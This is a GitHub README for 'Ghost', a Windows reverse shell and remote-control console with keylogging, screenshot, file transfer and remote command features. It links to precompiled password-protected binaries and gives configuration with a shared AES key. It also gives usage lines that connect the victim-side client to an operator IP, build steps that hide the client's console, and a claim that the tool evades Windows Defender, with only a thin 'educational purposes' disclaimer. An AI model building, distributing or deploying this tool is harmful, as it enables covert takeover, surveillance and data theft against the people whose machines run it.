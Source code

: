 # Ghost
Reverse shell and management console for Windows. Communication between the reverse shell and the management console is AES encrypted. Reverse shell and management console support tcp and udp protocols. 

<dl>
  <dt>Some of its features are
  <dd>
  <dd>-Sends commands to cmd and powershell,
  <dd>-Creates or extracts zip files
  <dd>-Downloads files from the Internet,
  <dd>-Supports file upload and download,
  <dd>-Creates keylogger program,
  <dd>-Takes a screenshot
  <dd>-Communication between server and client is AES encrypted.
</dl>

The Compiled Version of the Program Can be Downloaded from the Links Below.
---
<dl>
  <dt> 1) Compiled without using the "--noconsole" command 
  <dd>
  <dd> ghost_v4_showconsole.rar --> zip password: "ghost_v4"
  <dd> Link = https://drive.google.com/file/d/1d_8ghw7vlULQ26KI1hbJaTmT_d3QQY8W/view?usp=sharing
</dl>

<dl>
  <dt> 2) Compiled using the "--noconsole" command
  <dd> 
  <dd> ghost_v4_noconsole.rar --> zip password: "ghost_v4"
  <dd> Link = https://drive.google.com/file/d/1Oxeva5fwwTeRRJLv_7o12Lby4AXeFnEq/view?usp=sharing
</dl>



Requirements
---
Required libraries:  pycryptodome , requests, pyautogui, pyinstaller

```
pip install pycryptodome
pip install  requests
pip install pyautogui
pip install pyinstaller
```


"pyinstaller" will be used to make the code one piece executable


Settings
---

**(1) master.py**

![master](https://user-images.githubusercontent.com/71177413/162610379-f8baa1f8-050a-4923-90fe-287267a8e994.JPG)

```
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "0.0.0.0"                                 # This value in "master.py" should not be changed in order for "slave.py" to be connected.
    SOCKET_PORT     = 9292                                      # "slave.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 0                                   # No timeout. It is recommended to set the value to "0" for master.py.
``` 
    
   
  **(2) slave.py**
   
   ![slave](https://user-images.githubusercontent.com/71177413/162610823-5da57505-edf6-44c1-b7a9-74a3062beab6.JPG)
   
```
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "127.0.0.1"                               # The IP to which "slave.py" will be connected
    SOCKET_PORT     = 9292                                      # "master.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 300                                 # 5 minutes; It is recommended to be non-zero for "UDP". When the connection is lost or an error occurs, "slave.py" tries to connect again after this period. At the same time, if it does not receive a command from "master.py" within this time, it tries to connect again. Therefore, setting a very low value is also not appropriate.
```

<dl>
  <dt>
  <dt> Except for encryption, these values can be changed with initial parameters if desired.
  <dd>
  <dd> master.exe -h      ==> Shows help parameters.
  <dd> slave -h           ==> Not shows help parameters because of the parameter ("--noconsole") used while compiling
</dl>
  
<dl>
  <dt>
  <dt> Example:
  <dd>
  <dd> master -udp -c:cp857  -t:00 8080             ==> (8080 port)
  <dd> master -tcp -c:utf-8  -t:600 9393            ==> (9393 port)
  <dd> master 7272                                  ==> (7272 port)
  <dd> slave  -udp -c:cp857  -t:600 1.1.1.1:8080    ==> (1.1.1.1 ip - 8080 port)
  <dd> slave  -tcp -c:utf-8  -t:00  1.1.1.1:9393    ==> (1.1.1.1 ip - 9393 port)
  <dd> slave 3.3.3.3:7272                           ==> (3.3.3.3 ip - 7272 port)
</dl>

![1](https://user-images.githubusercontent.com/71177413/162611487-baabc2aa-2c37-4a9b-b178-74dbb8d08d75.JPG)

![2](https://user-images.githubusercontent.com/71177413/162611490-e24ad077-5b4d-4a33-8ac9-c72f24d91829.JPG)


Compilation
---

(show console for slave.py)

```
pyinstaller --onefile --icon=master.ico master.py

pyinstaller --onefile --icon=slave.ico slave.py
```
or (hide console for slave.py)

```
pyinstaller --onefile --icon=master.ico master.py

pyinstaller --onefile --noconsole --icon=slave.ico slave.py
```

Commands for Master.py
---

`commands      # Shows commands very briefly.`

![3](https://user-images.githubusercontent.com/71177413/162611768-9e3e7ad6-298a-4c7d-b907-320f2696003a.JPG)


`help          # Shows commands in detail.`

![4](https://user-images.githubusercontent.com/71177413/162611775-ed01e4f7-4dfb-4aa0-a6cb-9b7877528e1f.JPG)


Notes
---
First, master.py should be run, then slave.py should be run. Otherwise, slave.py will wait for the timeout and try to connect again.



Some Images of the Working of the Program
---

[1] 

![5](https://user-images.githubusercontent.com/71177413/162612140-749b42ed-b450-4a60-a43d-00e3f2eea801.JPG)


[2]

![6](https://user-images.githubusercontent.com/71177413/162612197-5cf920c1-8d3e-4647-99b5-a45b408cf275.JPG)


[3]

![11](https://user-images.githubusercontent.com/71177413/162612212-a7019220-d3db-4024-9d3a-f548e902b32b.JPG)


[4]

![7](https://user-images.githubusercontent.com/71177413/162612297-5da94b20-8b7f-40ec-92e4-1733e6a58059.JPG)


[5]

![8](https://user-images.githubusercontent.com/71177413/162612229-110697a1-b587-4bc2-ada1-1742538f4fb1.JPG)


[6]

![10](https://user-images.githubusercontent.com/71177413/162612315-b7bf2aa0-f349-4e85-b22c-aab987ca43d1.JPG)


[7]

![13](https://user-images.githubusercontent.com/71177413/162613543-95a90c3f-f4c6-434b-b05e-a91769ee9096.JPG)


[8]

![14](https://user-images.githubusercontent.com/71177413/162615941-394026f7-26a3-467c-bacd-20665c7ebb1c.JPG)


Windows Defender
---
As of 10/04/2022, it is not caught by the Windows Defender program. Over time this will change.


Legal Warning
---
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.

